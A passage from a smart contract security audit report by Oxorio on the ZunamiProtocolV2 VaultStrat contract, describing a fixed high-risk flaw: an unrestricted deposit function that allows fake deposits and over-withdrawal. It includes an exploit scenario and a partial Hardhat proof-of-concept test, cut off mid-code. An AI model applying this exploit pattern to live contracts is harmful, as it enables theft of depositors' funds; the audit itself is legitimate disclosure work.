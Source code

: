 **Auditors**

[Oxorio](https://oxor.io)

# Findings

## High Risk

### [FIXED] No access control for `deposit` function call in `VaultStrat`
##### Location
File | Location | Line
--- | --- | ---
[VaultStrat.sol](https://github.com/ZunamiProtocol/ZunamiProtocolV2/tree/8bc108201bef8c4d341ecd3a29a3b1d975019cec/contracts/strategies/VaultStrat.sol#L30 "/contracts/strategies/VaultStrat.sol") | contract `VaultStrat` > function `deposit` | 30

##### Description
The `deposit` function of the `VaultStrat` contract has an `external` visibility modifier and can be called by any address without permissions. An attacker can make a fake deposit to the `VaultStrat` contract by directly calling the `deposit` function without any token value. This leads to incorrect computation of the withdrawal value during withdrawal from the strategy. The process can be exploited as follows:
- Honest users deposit to `VaultStrat` through the controller.
- The attacker makes a low deposit to `VaultStrat` through the controller.
- The attacker makes a fake deposit to `VaultStrat` directly.
- The attacker withdraws all funds from `VaultStrat` through the controller.

```ts
  it('open deposit method in VaultStrat', async () => {
    const {
        alice,
        bob,
        zunamiPool,
        zunamiPoolController,
        strategies,
        usdt,
    } = await loadFixture(deployFixture);

    // add VaultStrat to zunamiPoolController
    const strategy = strategies[0];
    await zunamiPool.addStrategy(strategy.address);

    await zunamiPoolController.setDefaultDepositSid(0);
    await zunamiPoolController.setDefaultWithdrawSid(0);

    // Alice deposits 100 to VaultStrat
    await expect(
        zunamiPoolController
            .connect(alice)
            .deposit(getMinAmountZunUSD('100'), alice.getAddress())
    ).to.emit(zunamiPool, 'Deposited');

    // Bob deposits 100 to VaultStrat
    await expect(
        zunamiPoolController
            .connect(bob)
            .deposit(getMinAmountZunUSD('100'), bob.getAddress())
    ).to.emit(zunamiPool, 'Deposited');

    // Bob makes fake deposit to VaultStrat
    await strategy.connect(bob).deposit(getMinAmountZunUSD('200'))
```